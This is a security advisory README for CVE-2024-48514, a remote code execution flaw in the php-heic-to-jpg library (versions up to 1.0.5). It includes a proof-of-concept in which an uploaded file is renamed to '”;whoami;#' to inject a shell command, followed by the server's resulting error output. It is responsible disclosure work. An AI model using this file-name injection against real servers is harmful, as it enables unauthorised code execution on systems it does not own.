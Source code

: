 # CVE-2024-48514: php-heic-to-jpg is vulnerable to Remote Code Execution

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** This allows remote code execution by a user who can upload heic images, which affects the php-heic-to-jpg converter.  
**Versions Affected:** <= 1.0.5  
**Version Fixed:** [PullRequest #34](https://github.com/MaestroError/php-heic-to-jpg/pull/34) (1.0.6)  
**Researcher:** Marco Ris (https://github.com/marcoris)  
**Disclosure Link:** https://github.com/MaestroError/php-heic-to-jpg/issues/32  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-48514  

## Proof-of-Concept Exploit
### Description
php-heic-to-jpg <= 1.0.5 is vulnerable to remote code execution. An attacker who can upload heic images is able to execute code on the remote server via the file name. As a result, the CIA is no longer guaranteed. This affects php-heic-to-jpg 1.0.5 and below.  

### Usage/Exploitation
Upload a HEIC image file and intercept the request, e.g. with Burp Suite. Rename the file name to `”;whoami;#` and forward the request. The response shows the following error message with the disclosed `whoami` information:

```
The file &quot;;whoami;# has been uploaded.<br>
RuntimeException: Couldn't convert HEIC to JPG: 'Not enough arguments, needs: [command] [file1.heic] [file2.jpg]\nCreated by MaestroError\nwww-data' | Bin used: 'heicToJpg' HEIC: 'uploads/";whoami;#' Full Command: '/var/www/html/src/../bin/heicToJpg "uploads/";whoami;#" "uploads/";whoami;#-16541469646585ff874c9302.07761671" 2>&1' Output from heif-converter-image exe:  in /var/www/html/src/HeicToJpg.php:204
Stack trace:
#0 /var/www/html/src/HeicToJpg.php(71):
Maestroerror\HeicToJpg->processImage('uploads/";whoam...')
#1 /var/www/html/src/HeicToJpg.php(319):
Maestroerror\HeicToJpg->convertImage('uploads/";whoam...')
#2 /var/www/html/src/HeicToJpg.php(32):
Maestroerror\HeicToJpg::convert('uploads/";whoam...')
#3 {main}
```  
![Request with ";whoami;# filename](image.png)

![Response with remote code execution](image-1.png)